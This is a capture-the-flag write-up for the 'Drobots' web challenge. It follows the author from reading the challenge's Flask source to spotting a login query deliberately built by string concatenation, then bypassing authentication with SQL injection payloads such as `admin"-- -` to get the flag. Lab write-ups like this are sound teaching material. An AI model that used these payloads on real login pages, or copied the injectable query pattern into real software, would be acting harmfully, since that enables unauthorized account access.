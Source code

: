 # Drobots

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213226.png)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213450.png)

In here, we see there's a **login page**.

When I deal with a login page, I'll always try doing SQL injection to bypass the authentication.

**Some simple `' OR 1=1-- -` may do the job:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213938.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213943.png)

Ah Nope.

**Let's read the [source code](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/Web/Drobots/web_drobots.zip)!**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Drobots)-[2023.03.18|21:39:56(HKT)]
└> unzip web_drobots.zip 
Archive:  web_drobots.zip
   creating: web_drobots/
   creating: web_drobots/config/
  inflating: web_drobots/config/supervisord.conf  
  inflating: web_drobots/Dockerfile  
  inflating: web_drobots/build-docker.sh  
 extracting: web_drobots/flag.txt    
   creating: web_drobots/challenge/
  inflating: web_drobots/challenge/run.py  
   creating: web_drobots/challenge/application/
   creating: web_drobots/challenge/application/blueprints/
  inflating: web_drobots/challenge/application/blueprints/routes.py  
  inflating: web_drobots/challenge/application/config.py  
  inflating: web_drobots/challenge/application/util.py  
  inflating: web_drobots/challenge/application/database.py  
   creating: web_drobots/challenge/application/static/
   creating: web_drobots/challenge/application/static/css/
  inflating: web_drobots/challenge/application/static/css/bootstrap.min.css  
  inflating: web_drobots/challenge/application/static/css/style.css  
   creating: web_drobots/challenge/application/static/images/
  inflating: web_drobots/challenge/application/static/images/logo.png  
   creating: web_drobots/challenge/application/static/js/
  inflating: web_drobots/challenge/application/static/js/script.js  
  inflating: web_drobots/challenge/application/static/js/jquery.js  
   creating: web_drobots/challenge/application/templates/
  inflating: web_drobots/challenge/application/templates/home.html  
  inflating: web_drobots/challenge/application/templates/login.html  
  inflating: web_drobots/challenge/application/main.py  
  inflating: web_drobots/entrypoint.sh
```

**In `application/blueprints/routes.py`, we see some interesting stuff:**
```py
from flask import Blueprint, render_template, request, session, redirect
from application.database import login
from application.util import response, isAuthenticated
[...]
flag = open('/flag.txt').read()
[...]
@web.route('/home')
@isAuthenticated
def home():
    return render_template('home.html', flag=flag)
```

**The `/home` route (endpoint) will return the flag**. However, we need to be **authenticated**!

```py
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login(username, password)
    
    if user:
        session['auth'] = user
        return response('Success'), 200
        
    return response('Invalid credentials!'), 403
```

**In the `/login` route, we see it's using a fuction called `login()`, which is from `application.database`:**
```py
from colorama import Cursor
from application.util import createJWT
from flask_mysqldb import MySQL

mysql = MySQL()

def query_db(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

And oh! There's a Python comment: "We should update our code base and use techniques like parameterization to avoid SQL Injection".

As you can see, the SQL query is directly concatenated ***without using prepare statement (parameterization), or at least sanitized.***

## Exploitation

**That being said, we can bypass the authentication by using the following payload in the username field:**
```sql
" OR 1=1-- -
```

- The `"` is to escape the query string. So that the injected SQL query will become:

**Username: `anything"`:**
```sql
SELECT password FROM users WHERE username = "anything"" AND password = "password"
```

Then, the `OR 1=1` will always evaluate to `True`, which means we pass the check.

Next, the `-- -` is to comment out the rest of the SQL query.

**Hence, the injected SQL query will become:**
```sql
SELECT password FROM users WHERE username = "" OR 1=1-- -" AND password = "{password}"
```

However, **instead of using `OR 1=1`**, I wanna try something different:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215244.png)

> From [Tib3rius tweet](https://twitter.com/0xTib3rius/status/1624819441044185088).

That being said, if we know the correct username, we can login as that user without using the stupid `OR 1=1`.

**In the `entrypoint.sh`, we found the MySQL schema:**
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

mysql -u root << EOF
CREATE DATABASE drobots;
CREATE TABLE drobots.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
INSERT INTO drobots.users (username, password) VALUES ('admin', '$(genPass)');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON drobots.users TO 'user'@'localhost';
FLUSH PRIVILEGES;
EOF
```

In here, we see there's a user called `admin`!!

**That being said, we can bypass the authentication and login as admin!**
```sql
admin"-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215601.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215610.png)

Nice! We successfully bypassed it and got the flag!

- **Flag: `HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`**

## Conclusion

What we've learned:

1. Authentication Bypass Via SQL Injection